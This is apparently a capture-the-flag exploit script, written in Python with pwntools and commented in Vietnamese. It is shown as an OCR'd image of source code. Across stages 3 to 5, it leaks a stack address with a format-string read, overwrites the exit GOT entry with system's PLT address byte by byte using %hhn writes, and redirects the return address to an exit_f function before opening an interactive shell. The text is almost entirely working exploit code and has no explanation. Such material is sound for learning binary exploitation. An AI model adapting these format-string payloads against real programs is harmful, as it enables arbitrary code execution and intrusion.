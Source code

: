 ```python 
### Stage 3:leak stack and ret ###
##################################

p.sendlineafter(b'phai lam gi day?????\n', b'%17$p') 
stack_leak = int(p.recvline()[:-1], 16)
ret = stack_leak - 0x100
log.info("stack leak: " + hex(stack_leak))
log.info("ret: " + hex(ret))

#############################################
### Stage 4: ow exit.got() = system.plt() ###
#############################################

system = exe.plt['system'] #plt.system
exit = exe.got['exit'] #got.ext

log.info("system: " + hex(system))

# in từ từ 1byte

for i in range(0,6):
    payload = f"%{system & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(exit) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    system = system >> 8
    exit += 1
    log.info("system: " + hex(system))


################################
### Stage 5: ow ret = exit_f ###
#################################

exit_f = exe.sym['exit_f'] + 5

for i in range(0,6):
    payload = f"%{exit_f & 0xff}c%8$hhn".encode().ljust(16, b"\0")
    payload += p64(ret) 
    p.sendlineafter(b'phai lam gi day?????\n', payload )
    exit_f = exit_f >> 8
    ret += 1
    log.info("exit_f: " + hex(exit_f))


p.sendlineafter(b'phai lam gi day?????\n', b"a"*15 ) # à tại đây nhập quá 12byte để out vòng lặp qua return nha

p.interactive()


```
